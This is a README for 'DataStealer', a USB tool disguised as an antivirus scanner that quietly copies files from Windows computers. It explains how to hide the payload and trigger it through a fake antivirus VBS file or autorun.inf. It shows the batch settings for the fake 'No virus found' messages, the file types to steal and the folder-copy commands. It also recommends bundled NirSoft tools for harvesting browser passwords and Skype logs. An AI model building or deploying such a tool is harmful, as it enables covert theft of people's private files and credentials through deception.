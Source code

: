 # DataStealer

## Information
DataStealer is a simple funcionality for USB device (fake Antivirus USB) to gather information in Windows systems.

## Intructions
Just copy all from DataStealer folder and paste in USB device. Hide **"data"** folder and **"run.bat"**. When you conect USB device in Windows system just doble click in AntivirusUSB.vbs and DataStealer copy all files stealthily from pc.

***NOTE: You can use autotun.inf for auto-execute .vbs file but it only works in Windows Vista and Windows XP.***

[**Autorun.inf**](wikipedia.org/wiki/AutoRun "Wikipedia")
>[AutoRun]
>
>Open=AntivirusUSB.vbs

## Configuration
You can change diferents values in **run.bat**.

**Add or remove formats of steal files**
>set formats=*.jpg *.png *.mp4 *.3gp *.wav

**Enable or disable messages**
>set msg1=**true / false** [DEFAULT TRUE]
>
>set msg2=**true / false** [DEFAULT TRUE]
>
>set msg1text=Analyzing USB device for searching virus. [WINDOWS TEXT]
>
>set msg2text=No virus found. [WINDOWS TEXT]

**Enable or disable file theft**
>set stealfiles=**true / false** [DEFAULT TRUE]

**Enable or disable Nirsoft software**
>set nirsoft=**true / false** [DEFAULT TRUE]
>
>set soft=**[names of Nirsoft software files]** [DEFAULT EMPTY]

**NirSoft** web site provides a unique collection of **small and useful freeware utilities**, all of them developed by **Nir Sofer**. Go to nirsoft.net, download software and put in "data/soft/" folder. Later add names in value with spaces.

***Example:***
>set soft=**SkypeLogView WebBrowserPassView**

### Folders (Advanced Users)
If you want you can add lines with more folders in **"run.bat"** for gather information.

***Like this:***
>FOR /R **"%userprofile%\Pictures\"** %%a IN (%formats%) DO (copy /y "%%a" "%%#:\data\capt\%USERNAME%\")

Replace **"%userprofile%\Pictures\"** for any folder from Windows.

# Download
[Releases](https://github.com/Kevinsillo/datastealer/releases)
